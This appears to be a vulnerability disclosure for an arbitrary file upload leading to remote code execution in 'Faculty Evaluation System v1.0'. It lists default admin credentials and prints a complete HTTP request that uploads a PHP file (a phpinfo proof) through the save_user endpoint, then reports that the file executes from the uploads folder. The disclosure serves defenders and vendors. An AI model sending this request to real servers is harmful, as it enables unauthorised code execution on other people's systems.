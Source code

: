 # Faculty Evaluation System v1.0 by oretnom23 has arbitrary code execution (RCE)

BUG_Author: WuQi Qi and Zhihong Tian, Guangzhou University

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Login account: admin@admin.com/admin123 (Super Admin account)

Vulnerability url: ip/eval/ajax.php?action=save_user

Loophole location: Faculty Evaluation System's "/eval/ajax.php?action=save_user" file exists arbitrary file upload (RCE)

Request package for file upload：


```sql
POST /eval/ajax.php?action=save_user HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/eval/index.php?page=edit_user&id=1
Content-Length: 818
Content-Type: multipart/form-data; boundary=---------------------------1037163726497
Cookie: PHPSESSID=qm3tmf7esa9t4jsgeln6vna57r
Connection: close

-----------------------------1037163726497
Content-Disposition: form-data; name="id"

1
-----------------------------1037163726497
Content-Disposition: form-data; name="firstname"

Administrator
-----------------------------1037163726497
Content-Disposition: form-data; name="lastname"

a
-----------------------------1037163726497
Content-Disposition: form-data; name="img"; filename="hack.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------1037163726497
Content-Disposition: form-data; name="email"

admin@admin.com
-----------------------------1037163726497
Content-Disposition: form-data; name="password"


-----------------------------1037163726497
Content-Disposition: form-data; name="cpass"


-----------------------------1037163726497--
```


The files will be uploaded to this directory \eval\assets\uploads\
![image](https://user-images.githubusercontent.com/54017627/235872023-d853de72-5f23-48a0-9651-bc20dc09e2f4.png)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/235872093-f56e962b-abde-4332-ac40-7efb971646ce.png)

